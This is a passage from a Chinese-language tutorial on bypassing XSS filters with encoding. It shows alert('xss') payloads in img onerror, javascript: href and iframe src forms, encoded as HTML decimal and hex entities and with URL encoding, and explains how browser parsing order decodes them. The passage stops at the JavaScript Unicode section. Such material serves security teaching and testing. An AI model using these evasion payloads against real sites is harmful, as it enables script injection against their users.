 - `<img src=x onerror=alert("xss")>`

```html
// 十进制
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;>

// 十六进制
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>

// 也可以不带分号
<img src=x onerror=&#x61&#x6C&#x65&#x72&#x74&#x28&#x22&#x78&#x73&#x73&#x22&#x29>
```



### URL编码

我们可以并将src或href属性中的内容进行URL编码，当HTML解析器对src或href中的字符完成HTML解码后，接下来URL解析器会对src或href中的值进行URL解码。

```html
<a href="...">xx</a>

<iframe src="...">
```

下面给出几个实例。

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:%61%6c%65%72%74%28%22%78%73%73%22%29>test</a>
```

- `<iframe src=javascript:alert("xss")></iframe>`

```html
<iframe src="javascript:%61%6c%65%72%74%28%22%78%73%73%22%29"></iframe>
```

注意，伪协议头 `javascript:` 是不能进行编码的。这里就有一个URL解析过程中的一个细节了，即不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型，就会导致DOM节点中被编码的“javascript”没有被解码，当然不会被URL解析器识别了。就比如说 `http://www.baidu.com` 可以被URL编码为 `http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d`，但是不能把协议也进URL编码：`%68%74%74%70%3a%2f%2f%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d` 。

但是伪协议头 `javascript:` 可以进行HTML编码。

### Javascript 编码

我们可以将DOM节点中的内容转化为 Javascript 编码。当HTML解析产生DOM节点后，会根据DOM节点来做接下来的解析工作，比如在处理诸如 `<script>`、`<style>` 这样的标签时，解析器会自动切换到JavaScript解析模式，而 `src`、 `href` 后边加入的 javascript 伪URL，也会进入 JavaScript 的解析模式。

Javascript 中可以识别的编码类型有：

- Unicode 编码
- 八进制编码
- 十六进制编码

一般情况下我们使用Unicode编码的比较广泛，而八进制和十六进制只有在DOM环境或eval()等函数中才可以用。

#### Unicode 编码
